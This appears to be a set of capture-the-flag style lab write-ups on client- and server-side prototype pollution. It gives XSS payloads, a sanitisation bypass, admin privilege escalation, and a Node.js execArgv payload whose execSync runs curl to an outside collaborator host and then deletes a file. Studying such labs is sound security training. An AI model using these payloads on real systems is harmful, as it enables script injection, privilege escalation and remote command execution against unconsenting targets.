 
**Step1:** 

First we find a point where we can inject query

Here we have two places submit feedback and search blog.

After seeing the burp response for both it is slightly clear where we inject

From here one thing is clear that we can inject in search query parameter

**Step2:**

Now when I inspect page and go to searchLoggerConfigurable.js we can see


So after analysize it is clear that 

Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property

So we inject query in url

__proto__[value]=data:,alert(1);




And the lab is solved.




Step1:
To solve we have two approach first I will explain how to solve manually then using DOM invader.

If we view .js file for search query we have
async function logQuery(url, params) { 
try { 
await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)}); 
} catch(e) { 
console.error("Failed storing query"); 
} 
} 
async function searchLogger() { 
let config = {params: deparam(new URL(location).searchParams.toString())}; 
if(config.transport_url) { 
let script = document.createElement('script'); 
script.src = config.transport_url; 
document.body.appendChild(script); 
} 
if(config.params && config.params.search) { 
await logQuery('/logger', config.params); 
} 
} 
window.addEventListener("load", searchLogger);


From here on thing is clear that
• Dynamic Script Injection:
	• The code creates a script element and assigns its src attribute to config.transport_url without proper validation. If an attacker can manipulate the transport_url, they could point it to a malicious script. This allows for cross-site scripting (XSS) attacks.


So to solve this we use __proto__[transport_url]=data:,alert(10) 


Solving using dom-invader

Enabling DOM inavder 
We  have a bupsuite sign at top right


Click on it and under DOM invader turn on "DOM invader is on" option

And under attack turn on prototype pollution .


Step3:
Now refresh page and under DOM-invader we have


Click on scan for gadget and we have sink



Simple click on exploit and we have exploit in url


And Lab is solved.



Step1:
To solve this lab manual we first view 

async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);


1. Notice that the manager.sequence property is passed to eval(), but this isn't defined by default.
When I add this in url 
/?__proto__.hello=world

And then in inspect when I ue 
Object.prototype

It show hello property with value world


Step2:
Now we use 
/?__proto__.sequence=alert(1)

When we run this it given error in consolve. So we use alert(1) -

And the alert is trigger





Using DOM invader

Step1:
Refresh page we have source 

Click on scan for gadget

Step2:


And we have one sink found click on exploit

Step3:
In url append exploit with -


And the lab is solved.


?__pro__proto__to__[transport_url]=data:,alert(1);


Step1:

First we analyze 


Example:
This script logs query parameters from the URL on page load, potentially sending them to a server (/logger) if the search parameter exists. It also sanitizes keys to prevent prototype pollution by removing dangerous properties like constructor and __proto__

Step2:

Now we apply different payload to.

After few payload we come to conclusion that that this can trigger the alert

?__pro__proto__to__[transport_url]=data:,alert(1);







Step1:
First we login with given credential

Step2:
Click on button so we have updated billing and delivery address



Step3:
Now when we analyze POST /my-account/change-address we can see in response we have admin parameter.

Step4:
If we simply try to inject parameter we can see in result it reflect


Here we see that admin is set to false and seconly w have to inject a prototype so we escalate 
Step4:


Here we can see that we are able to override admin parameter.

Step5:
So now we end a post reuqest to /admin and we can see in response we have


Simply Send a post request to /delete endpoint with carlos parameter


And the lab is solved.



Step1:
Login with given credential

Step2:
Click on submit to update detail


Step3:
Send the /my-account/change-address to repeater.



Here we can see there are different parameter in response.
And currentyl I have no idea which vulnerabilty is there
• Status code override
• JSON spaces override
• Charset override


Step3:
If I try to change admin function using  prototype pollution. 


We can see that admin is set to true. But we have no such /admin point to work with

Step5:
If I make a syntax error we can see in response


We can see in response we have statu code. So we change it using same logic




To trigger toe status we again make a syntax error this time we can see change status code. But we use status code between 400 and 599


And the Lab is solved.




Step1:
To check server side prototype pollution we use extension server side prototype pollution.

Step2:
Login with given credential and click on submit to update address. Secondly go to admin panel and click on Maintenance button.

Step3:
Send the POST /my-account/change-address request to repeater 


Now right click on rightclick under extension-> server side prototype pollution scanner->server side prototype pollution

Now under extension we can see


In Burp professional this is also this onDashBoard->issue activity


As json spacing is mention first we try by adding 10 char space


Step4:
Now we try the payload to execute a command by providing command line argument  in node js using execArgv 

"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('curl a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com')"
    ]
}

Here a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com is my collaborator id to confirm



Here we can see in reponce the value is set 

Now go to POST /admin/jobs  endpoint and send request in reponce we can  se message and confirm it from collaborator


In collaborator we have



Step5:
Now we have to execute a code on server side. Simply replace curl colaborator id with rm /home/carlos/morale.txt

"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
}





Now we again go to POST /admin/jobs and send request



And the Lab is solved.

